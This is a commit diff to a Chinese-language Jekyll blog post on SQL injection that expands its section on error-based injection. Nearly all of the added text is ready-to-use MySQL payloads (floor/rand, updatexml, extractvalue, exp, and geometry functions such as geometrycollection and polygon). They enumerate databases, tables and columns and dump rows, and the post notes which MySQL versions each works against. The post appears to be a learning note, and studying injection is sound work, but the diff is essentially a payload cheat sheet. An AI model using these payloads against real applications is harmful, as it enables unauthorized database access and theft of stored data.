

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-11-26-SQLInjection1.md, in a window 1280 px wide and 1400 px high, scrolled down 4658 px. Shown: the whole window at 92% size, without its empty margins (233-1230 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update SQLInjection1.md

````diff
--- a/_posts/2020-11-26-SQLInjection1.md
+++ b/_posts/2020-11-26-SQLInjection1.md
@@ -195,6 +195,8 @@ id=1' and ascii(substr(database(), 0, 1))<N -- -
 
 ## 0x06 报错注入
 
+注意：由于报错信息有时会有长度限制，所以最好使用`limit 0,1`这样的语句逐个查询，在第2种报错注入updatexml中会提及一下怎么一次全爆破，后面都只说明如何逐个查询。
+
 #### 1. floor报错注入
 
 报错注入形式上是两个嵌套的查询，即select...(select...)，里面的那个select被称为子查询，他的执行顺序也是先执行子查询，然后再执行外面的select，双注入主要涉及函数：
@@ -205,22 +207,25 @@ id=1' and ascii(substr(database(), 0, 1))<N -- -
 - group by clause分组语句，按照查询结果分组。
 - floor(rand(0)\*2)是定性的011011，并不是真随机，而是伪随机，这句会引起报错，从而配合其它语句输出报错信息来达到泄露。
 - ()x 是对括号内容的命名，把括号里面的命名为x。
+- 另外需要注意的是最后面的一个`from information_schema.tables`是固定的，不管什么操作都不用变，也可以换成其他数据库和表，但都不影响。
 
-下述中security为数据库名称，security.users为表名，0x3a是英文冒号，这里用来分隔输出，看起来方便点。
+下述中0x7e是波浪线，这里用来分隔输出，看起来方便点。
 
-获取数据库
 ```
-id=-1' union select 1,2,3 from (select count(*),concat((select concat(version(),0x3a,0x3a,database(),0x3a,0x3a,user(),0x3a) limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
-```
+# 获取数据库信息
+id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, version(),0x7e,database(),0x7e,user(),0x7e) limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
 
-获取表名
-```
-id=-1' union select 1,2,3 from (select count(*),concat((select concat(table_name,0x3a,0x3a) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
-```
+# 获取一个库名
+id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, schema_name, 0x7e) from information_schema.schemata limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
 
-获取用户信息
-```
-id=-1' union select 1,2,3 from (select count(*),concat((select concat(username,0x3a,0x3a,password,0x3a,0x3a) from security.users limit 1,1), floor(rand(0)*2))x from information_schema.tables group by x)a -- -
+# 获取一个表名
+id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, table_name,0x7e) from information_schema.tables where table_schema='[库名]' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
+
+# 获取一个列名（字段）
+id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, column_name, 0x7e) from information_schema.columns where table_name='[表名]' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
+
+# 获取一行数据
+id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, [字段1], 0x7e, [字段2], 0x7e) from [库名].[表名] limit 0,1), floor(rand(0)*2))x from information_schema.tables group by x)a -- -
 ```
 
 #### 2. updatexml报错注入
@@ -251,24 +256,27 @@ id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select table_na
 # 依次查找列名
 id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select column_name),0x7e) FROM information_schema.columns where table_name='[表名]' limit 0,1),0x7e),1)  -- -
 
-# 一次查出所有表名
+# 依次爆数据
+id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select concat([字段1],0x7e,[字段2])),0x7e) FROM [库名].[表名] limit 0,1),0x7e),1)  -- -
+
+# 一次查出所有库名（但是报错信息有长度32位限制，所以最好逐个查）
+id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select group_concat(schema_name)),0x7e) FROM information_schema.schemata),0x7e),1)  -- -
+
+# 一次查出所有表名（但是报错信息有长度32位限制，所以最好逐个查）
 id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select group_concat(table_name)),0x7e) FROM information_schema.tables where table_schema='[库名]'),0x7e),1)  -- -
 
-# 一次查找某个表下所有列名
+# 一次查找某个表下所有列名（但是报错信息有长度32位限制，所以最好逐个查）
 id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select group_concat(column_name)),0x7e) FROM information_schema.columns where table_name='[表名]'),0x7e),1) -- -
 
-# 依次爆破数据
+# 一次爆出全部数据（但是报错信息有长度32位限制，所以最好逐个查）
 id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select group_concat([列名1],0x3a,[列名2])),0x7e) FROM [库名].[表名]),0x7e),1)  -- -
 ```
 
 其中：
 
 - distinct表示返回后面的内容不重复。
-
 - 0x7e为波浪线，用于分隔。
-
-- 0x3a为分号，用于分隔。
-
+- 0x3a为冒号，用于分隔。
 - group_concat()会把结果按照输入的字段进行分组拼接，每组拼成一个字符串，组与组之间用逗号隔开，再拼接成一个完整的字符串。
 
 update注入就常用updatexml函数来注入：
@@ -282,14 +290,111 @@ id=-1' or updatexml(1, concat(0x7e, version(), 0x7e), 1) -- -
 MySQL 大于等于5.1.5才能extractvalue报错注入。
 
 ```
+# 获取基础信息
+id=1' and extractvalue(1,concat(0x7e,user(),0x7e)) -- -
 id=1' and extractvalue(1,concat(0x7e,database(),0x7e)) -- -
+id=1' and extractvalue(1,concat(0x7e,version(),0x7e)) -- -
+
+# 获取一个库名
+id=1' and extractvalue(1,concat(0x7e,concat(0x7e,(select concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1),0x7e),0x7e)) -- -
+
+# 获取一个表名
+id=1' and extractvalue(1,concat(0x7e,concat(0x7e,(select concat(0x7e, (select table_name),0x7e) FROM information_schema.tables where table_schema='[库名]' limit 0,1),0x7e),0x7e)) -- -
+
+# 获取一个列名
+id=1' and extractvalue(1,concat(0x7e,concat(0x7e,(select concat(0x7e, (select column_name),0x7e) FROM information_schema.columns where table_name='[表名]' limit 0, 1),0x7e),0x7e)) -- -
+
+# 获取一行数据
+id=1' and extractvalue(1,concat(0x7e,(select concat(0x7e, (select concat([字段1],0x3a,[字段2])),0x7e) FROM [库名].[表名] limit 0,1),0x7e)) -- -
 ```
 
-#### 4. GeometryCollection报错注入
+#### 4. exp报错注入
+
+目前测试MySQL 5.5可用，5.0、5.1、5.7、8.0均不能用
 
 ```
-id=1' and GeometryCollection((select * from(select * from(select user())a)b)) -- -
+# 获取基础信息
+id=1' and exp(~(select * from(select user())a)) -- -
+id=1' and exp(~(select * from(select database())a)) -- -
+id=1' and exp(~(select * from(select version())a)) -- -
+
+# 获取一个库名
+id=1' and exp(~(select * from(select concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1)a)) -- -
+
+# 获取一个表名
+id=1' and exp(~(select * from(select concat(0x7e, (select table_name), 0x7e) FROM information_schema.tables where table_schema='[库名]' limit 0,1)a)) -- -
+
+# 获取一个列名
+id=1' and exp(~(select * from(select concat(0x7e, (select column_name), 0x7e) FROM information_schema.columns where table_name='[表名]' limit 0,1)a)) -- -
+
+# 获取一行数据
+id=1' and exp(~(select * from(select concat(0x7e, (select concat([字段1],0x3a,[字段2])),0x7e) FROM [库名].[表名] limit 0,1)a)) -- -
 ```
+
+#### 5. geometrycollection报错注入
+
+目前测试在MySQL5.1、5.5版本中可以报错user()执行结果，5.0、5.7、8.0都不行。
+
+```
+# 获取基础信息
+id=1' and geometrycollection((select * from(select * from(select user())a)b)) -- -
+id=1' and geometrycollection((select * from(select * from(select database())a)b)) -- -
+id=1' and geometrycollection((select * from(select * from(select version())a)b)) -- -
+
+# 获取一个库名
+id=1' and geometrycollection((select * from(select * from(select concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1)a)b)) -- -
+
+# 获取一个表名
+id=1' and geometrycollection((select * from(select * from(select concat(0x7e, (select table_name),0x7e) FROM information_schema.tables where table_schema='[库名]' limit 0,1)a)b)) -- -
+
+# 获取一个列名
+id=1' and geometrycollection((select * from(select * from(select concat(0x7e, (select column_name),0x7e) FROM information_schema.columns where table_name='[表名]' limit 0, 1)a)b)) -- -
+
+# 获取一行数据
+id=1' and geometrycollection((select * from(select * from(select concat(0x7e, (select concat([字段1],0x3a,[字段2])),0x7e) FROM [库名].[表名] limit 0,1)a)b)) -- -
+```
+
+#### 6. polygon报错注入
+
+同GeometryCollection报错注入。
+
+```
+id=1' and polygon((select * from(select * from(select user())a)b)) -- -
+```
+
+#### 7. multipoint报错注入
+
+同GeometryCollection报错注入。
+
+```
+id=1' and multipoint((select * from (select * from(select user())a)b)) -- -
+```
+
+#### 8. multilinestring报错注入
+
+同GeometryCollection报错注入。
+
+```
+id=1' and multilinestring((select * from (select * from(select user())a)b)) -- -
+```
+
+#### 9. multipolygon报错注入
+
+同GeometryCollection报错注入。
+
+```
+id=1' and multipolygon((select * from (select * from(select user())a)b)) -- -
+```
+
+#### 10. linestring报错注入
+
+同GeometryCollection报错注入。
+
+```
+id=1' and linestring((select * from(select * from(select user())a)b)) -- -
+```
+
+
 
 ## 0x07 宽字节注入
 
````
